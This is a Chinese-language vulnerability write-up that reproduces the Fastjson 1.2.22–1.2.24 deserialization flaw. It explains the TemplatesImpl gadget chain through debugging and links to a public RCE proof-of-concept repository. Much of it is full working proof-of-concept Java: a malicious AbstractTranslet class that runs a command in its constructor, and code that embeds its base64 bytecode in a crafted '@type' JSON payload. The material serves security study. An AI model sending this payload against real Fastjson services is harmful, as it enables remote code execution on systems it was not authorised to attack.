



Fastjson 1.2.22 - 1.2.24 反序列化漏洞
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

Fastjson 1.2.22-24

三、复现过程
------------

### 0x01 简单介绍

> 介绍：FastJson是一款由阿里开发的JSON库> 影响版本：1.2.22-24> 官方通告：https://github.com/alibaba/fastjson/wiki/security\_update\_20170315> 补丁：https://github.com/alibaba/fastjson/commit/d075721cf396d5cb70e24c824b901e3a9a5b342b
>
> 本地环境：> win10> idea64 2018.2.5> jdk 1.8> fastjson 1.22

#### FastJson的简单使用

先通过一个简单的demo来熟悉一下FastJson的基本操作。首先创建一个Student类，Student.java：

    package ka1n4t.test;

    public class Student {
        public String name;
        private int age;

        public String getName() {
            return name;
        }

        public void setName(String name) {
            this.name = name;
        }

        public int getAge() {
            return age;
        }

        public void setAge(int age) {
            this.age = age;
        }
    }

Students有一个公有属性name和一个私有属性age。下面使用一个测试类，将json字符串反序列化成Student对象，learnFJ.java：

    package ka1n4t.test;

    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.parser.Feature;
    import com.alibaba.fastjson.JSONObject;

    public class learnFJ {
        public static void main(String args[]) {
            String text = "{\"@type\":\"ka1n4t.test.Student\",\"name\":\"ZhangSan\",\"age\":123}";
            Student obj1 = JSON.parseObject(text, Student.class, Feature.SupportNonPublicField);
            System.out.println(obj1.getName());
        }
    }

结果：

### 0x02 原理分析

#### 分析POC

先看一下用于反序列化的恶意类evilClass1.java:

    package ka1n4t.poc;

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

    import java.io.IOException;

    public class evilClass1 extends AbstractTranslet/*ka1n4t*/ {

        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
        }

        public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

        }

        public evilClass1() throws IOException {
            Runtime.getRuntime().exec("calc");
        }

        public static void main(String[] args) throws IOException {
            evilClass1 helloworld = new evilClass1();
        }
    }

其中的构造方法是用exec弹个计算器。看下poc，vulApp1.java：

    package ka1n4t.poc;

    import org.apache.commons.io.IOUtils;
    import org.apache.commons.codec.binary.Base64;
    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.parser.Feature;
    import com.alibaba.fastjson.parser.ParserConfig;
    import java.io.ByteArrayOutputStream;
    import java.io.File;
    import java.io.FileInputStream;
    import java.io.IOException;

    public class vulApp1 {

        public static String readClass(String cls){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            try {
                IOUtils.copy(new FileInputStream(new File(cls)), bos);
            } catch (IOException e) {
                e.printStackTrace();
            }

            String result = Base64.encodeBase64String(bos.toByteArray());

            return result;
        }

        public static void bad_method() {
            ParserConfig config = new ParserConfig();
            final String fileSeparator = System.getProperty("file.separator");
            String evil_path = "D:\\Java-App\\fastjson-1.2.22\\target\\classes\\ka1n4t\\poc\\evilClass1.class";
            String evil_code = readClass(evil_path);

            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

            String text1 = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                    "'_name':'a.b'," +
                    "'_tfactory':{ }," +
                    "\"_outputProperties\":{ }}\n";
            System.out.println(text1);
            Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        }

        public static void main(String args[]) {
            bad_method();
        }

    }

核心部分：

    String text1 = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                    "'_name':'a.b'," +
                    "'_tfactory':{ }," +
                    "\"_outputProperties\":{ }}\n";

    Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);

\_bytecodes是经过base64编码的evilClass1的字节码文件，NASTY\_CLASS是TemplatesImpl类。总结一下这个payload，利用JSON.parseObject反序列化TemplatesImpl类，其中\_bytecodes属性是经过base64编码的恶意类字节码文件。

#### 调试分析

下面来分析一下反序列化TemplatesImpl的调用链，首先经过java的反射机制，到达TemplatesImpl类，调用其getOutputProperties()方法：

跟进newTransformer()方法，这个方法是用于创建一个Transformer实例。然后到达getTransletInstance()方法：

getTransletInstance()方法用于创建一个translet实例，返回这个translet给newTransformer()，然后被包裹成Transformer对象。跟进一下这个方法，发现其调用了defineTransletClasses()用来加载\_bytecodes中的类，接着又调用了\_class\[\_transletIndex\].newInstance()将defineTransletClasses()返回的类进行实例化：

先跟进一下defineTransletClasses方法：

可以看到，使用了loader.defineClass()方法用于加载\_bytecodes的内容，并将返回的类赋值给\_class\[i\]（这里的i是0）。loader是TemplatesImpl自定义的类，跟进一下：

可以看到TransletClassLoader继承了Java类加载器---ClassLoader类，跟进其defineClass方法，发现直接调用了父类ClassLoader中的方法，所以就不再跟进了。

回到defineTransletClasses方法，其间接调用ClassLoader加载\_bytecodes中的内容之后，将加载出来的类赋值给\_class\[0\]，然后结束，回到getTransletInstance方法，再看一下图：

可以看到，455行直接使用了\_class\[0\].newInstance()创建实例，创建的过程中调用了evilClass1构造方法，然后触发了payload：

### 0x03 复现过程

从github上直接pull下poc：https://github.com/ianxtianxt/fastjson-remote-code-execute-poc
使用idea打开工程，编译test.java：

然后会在target/classes/person下生成test.class文件。用同样的方法编译Poc.java。

配置运行方式

image

运行Poc：

参考链接
--------

> https://www.cnblogs.com/litlife/p/9986427.html
